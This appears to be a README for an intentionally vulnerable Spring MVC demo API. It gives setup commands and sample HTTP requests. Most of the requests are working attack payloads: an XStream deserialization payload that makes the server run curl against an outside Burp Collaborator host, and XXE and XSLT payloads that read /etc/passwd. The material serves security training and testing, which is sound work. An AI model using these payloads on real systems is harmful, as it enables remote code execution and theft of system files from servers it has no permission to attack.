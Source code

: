 # Sample Spring MVC API vulnerable to deserialization attacks

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `mvn clean install jetty:run`

Accessible on port 8080

### Running in docker
1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `docker build -t deserialize .`
4. `docker run -p 8080:8080 -it deserialize`

## Normal request

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<contact>  
    <id>1</id>
    <firstName>yo</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>  
```

## Deserialization attack

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<dynamic-proxy>  
  <interface>org.insecurelabs.api.contacts.Contact</interface>  
  <handler class="java.beans.EventHandler">  
    <target class="java.lang.ProcessBuilder">
      <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
    </target>
    <action>start</action>
  </handler>  
</dynamic-proxy> 
```

## XXE

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<contact>  
    <id>1</id>
    <firstName>&content;</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>
```

## XSLT 2.0

```
POST /api/contacts/1/html HTTP/1.1
Host: localhost
Content-Type: application/xslt
Accept: text/html
Content-Length: 241

<?xml version="1.0" encoding="UTF-8" ?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
 <xsl:template match="/">
  <xsl:value-of select="unparsed-text('/etc/passwd')"/>
 </xsl:template>
</xsl:stylesheet>
```


# Resources
http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
